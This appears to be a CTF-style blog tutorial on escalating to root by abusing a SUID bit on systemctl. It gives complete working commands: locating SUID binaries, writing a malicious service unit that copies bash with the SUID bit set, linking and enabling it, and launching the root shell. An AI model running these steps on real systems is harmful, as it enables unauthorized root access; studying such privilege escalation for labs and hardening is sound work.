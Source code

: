 ```yaml
---
title: "SystemCTL SUID bit exploitation"
date: 2025-07-21
categories: Software
tags: [privesc, ctf, linux]
---
```


The SUID bit (Set owner User ID) is a special permission in Unix/Linux systems that, when set on an executable file, allows that file to be run with the permissions of the file’s owner, rather than the user who is running it. It is denoted with an `s` in the bit:

![SUID bit permission](/assets/images/suid.png)

If a binary owned by root has a SUID bit, the program will always run as root. This is extremely useful, especially in privilege escalation as we can do stuff like get a root shell.

In our case, the `systemctl` utility was assigned a SUID bit that we can exploit to gain a root shell by copying the output of `/bin/bash` to a file we make. The output of `/bin/bash` will be a root shell as in our case `systemctl` has a SUID bit and is owned by root.

> **Tip:** Locate all SUID bits with the command `find / -perm -u=s -type f 2>/dev/null`

## Exploitation

Firstly, we will create a file telling `systemctl` that when ran the output from `/bin/bash` should be written to `/tmp/rootbash` using SUID:

```bash
cat <<EOF > /tmp/rootme.service
[Unit]
Description=Root shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

We will then register this file with `systemctl`:

```bash
/bin/systemctl link /tmp/rootme.service
```

We can then enable the service:

```bash
/bin/systemctl enable --now rootme.service
```

Finally, we can run our `rootbash` file:

```bash
/tmp/rootbash -p
```

Note that the `-p` means that privileges should NOT be dropped. (Normally, when a SUID binary is ran, bash drops privileges for safety).

We should successfully obtain a root shell from this!





